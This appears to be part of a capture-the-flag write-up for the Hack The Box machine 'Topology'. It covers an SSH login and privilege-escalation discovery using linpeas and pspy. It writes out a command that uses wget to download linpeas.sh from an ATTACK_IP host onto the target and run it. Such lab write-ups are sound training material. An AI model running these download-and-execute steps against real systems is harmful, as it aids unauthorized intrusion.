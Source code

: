 ```bash
ssh vdaisly@topology.htb
```

<details markdown="1"><summary><b>user.txt</b></summary></details>

## Discovery

In order to find a privilege escalation path we first need to perform we discovery on the host. As we know that we are on a linux host we use the linpeas utility to automate that. You can find the script in this webpage: [https://linpeas.sh/](https://linpeas.sh/)

To upload the file first store it on your attack machine and start a basic web sever in the same directory using the following command:

```bash
python -m http.server 8000
```

We can now download it on the target host using wget where ATTACK_IP is your attack machine IP in HTB network:

```bash
wget <ATTACK_IP>:8000/linpeas.sh
```

We can now launch this script by first giving it execution permissions

```bash
chmod +x linpeas.sh
./linpeas.sh
```

## Psypy

![pspy.png](images/pspy.png)
